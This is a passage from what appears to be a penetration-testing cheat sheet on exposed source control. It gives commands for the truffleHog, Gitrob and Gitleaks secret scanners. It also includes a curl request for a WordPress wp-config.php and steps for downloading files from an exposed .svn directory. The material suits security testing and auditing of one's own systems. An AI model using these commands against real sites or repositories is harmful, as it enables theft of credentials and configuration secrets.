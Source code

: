 > Searches through git repositories for high entropy strings and secrets, digging deep into commit history

```powershell
pip install truffleHog # https://github.com/dxa4481/truffleHog
truffleHog --regex --entropy=False https://github.com/dxa4481/truffleHog.git
```

### Harvesting secrets : Gitrob

> Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

### Harvesting secrets - Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

```powershell
# Run gitleaks against a public repository
docker run --rm --name=gitleaks zricethezav/gitleaks -v -r  https://github.com/zricethezav/gitleaks.git

# Run gitleaks against a local repository already cloned into /tmp/
docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks

# Run gitleaks against a specific Github Pull request
docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000

or

go get -u github.com/zricethezav/gitleaks
```

## SVN - Source code management

### SVN example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```
2. Download interesting files
    * remove \$sha1\$ prefix
    * add .svn-base postfix
    * use first two signs from hash as folder name inside pristine/ directory (94 in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`
